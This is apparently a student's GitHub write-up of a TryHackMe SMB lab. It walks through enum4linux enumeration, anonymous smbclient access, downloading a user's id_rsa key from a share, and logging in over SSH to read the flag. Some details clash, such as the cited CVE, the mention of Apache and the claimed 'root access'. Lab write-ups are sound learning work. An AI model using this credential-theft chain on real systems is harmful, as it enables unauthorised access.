 # TryHackMe Documentation: Cyber Defense #1

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenge.
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment.

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access a server and capture the flag by enumerating an SMB and exploiting its vulnerabilities to exfiltrate sensitive data and gain access to the server and capture the flag

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**: 
	- `Enum4linux `
	- `enum4linux -U 10.10.242.131`
	- `enum4linux -a 10.10.242.131`
  - **Findings**:
	- Users are: administrator, guest, krbtgt, domain admins, root, bin, none
	- No password 
	- Workgroup name is WORKGROUP
	- Name of machine is polosmb
	- OS running on version 6.1
	- ***Ports that are open***:
		- 22/tcp  open  ssh
		- 139/tcp open  netbios-ssn
		- 445/tcp open  microsoft-ds
	- Users profiles is shared in the SMB with the sharename 'profiles'

### 3.3 Exploitation
- **Vulnerability Identification**: [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)
  - **Techniques Used**:  exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

- **Exploitation Process**:
	- Enter to access SMB `smbclient //10.10.242.131/ Anonymous -U profiles`
	- Press enter on the password because there is no password set
	- Enter `ls -a` to show files and hidden files
![Screenshot 2024-05-20 183213](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ef9f7522-8502-429f-bc32-cad423820baa)

	- Type `get Working From Home Information` to download to your download folder
![Screenshot 2024-05-20 182845](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/1d7c5b9c-018a-4ab7-959a-64dbbc710cea)

	- Enter `cat Working From Home Information.txt` in the terminal to view the text file
![Screenshot 2024-05-20 184207](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/417d6c7f-e9c6-491a-80bc-dbd43424dc9b)

	- Type `open .ssh` to access directory
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/a871111d-92af-4503-8973-c949870cfb41)

	- To download type `get id_rsa`
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ba82f020-cde0-452d-948c-5f08794d993d)

	- Type `chmod 600` id_rsa to change the permissions
![chmod](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/c0217817-5203-46c4-9743-66995a57566a)

	- Type `ssh cactus@10.10.242.131 -i id_rsa` to access the server
![Screenshot 2024-05-20 190916](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/b61b84c7-f850-4c50-b0bd-147bcbfecbfd)

	- Type `ls`  to show files then `cat smb.txt` to view text file
![Screenshot 2024-05-20 191157](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/145c3e10-0603-4e3e-a297-f55fee5498ee)


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

